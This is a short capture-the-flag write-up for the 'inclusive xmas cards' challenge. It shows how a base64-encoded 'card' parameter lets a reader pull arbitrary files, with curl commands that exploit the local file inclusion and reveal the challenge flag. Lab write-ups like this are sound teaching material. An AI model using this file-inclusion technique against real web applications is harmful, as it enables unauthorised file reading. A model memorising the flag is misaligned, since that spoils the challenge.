



# 19 - The inclusive xmas cards

> We felt that the our last xmas cards weren't that inclusive. So we made even more options, so everyone has one that fits them!
> 
> http://rsxc.no:20019

---



Looking around `http://rsxc.no:20019` we can see different xmas cards. It looks like the `card`-key is a `base64` encoded value. We also have that `Finding your card in /files` clue at the top which implies that the card is read from the file system.



The `/files` folder does have directory listing enabled and there is a `flag.txt` file in there, but we get a `403 Forbidden` error when trying to browser directly to it.



Let's move into the terminal since the xmas cards are ASCII art!


```
$ curl http://rsxc.no:20019/card.php?card=c25vd21lbi50eHQ=
Finding your card in /files
.      *    *           *.       *   .                      *     .
               .   .                   __   *    .     * .     *
    *       *         *   .     .    _|__|_        *    __   .       *
  .  *  /\       /\          *        ('')    *       _|__|_     .
       /  \   * /  \  *          .  <( . )> *  .       ('')   *   *
  *    /  \     /  \   .   *       _(__.__)_  _   ,--<(  . )>  .    .
      /    \   /    \          *   |       |  )),`   (   .  )     *
   *   `||` ..  `||`   . *.   ... ==========='`   ... '--`-` ... * jb .
```

That's more like it. Now let's have a look at that `card`-key.

```
$ echo "c25vd21lbi50eHQ=" | base64 -d
snowmen.txt
```

We have a file name! Could this really be such an easy `LFI` vuln? Let's try.

```
$ curl http://rsxc.no:20019/card.php?card=$(echo -n "flag.txt" | base64)
Finding your card in /files
RSXC{It_is_not_smart_to_let_people_include_whatever_they_want}
```

Guess so!

## Solution

The flag is: `RSXC{It_is_not_smart_to_let_people_include_whatever_they_want}`
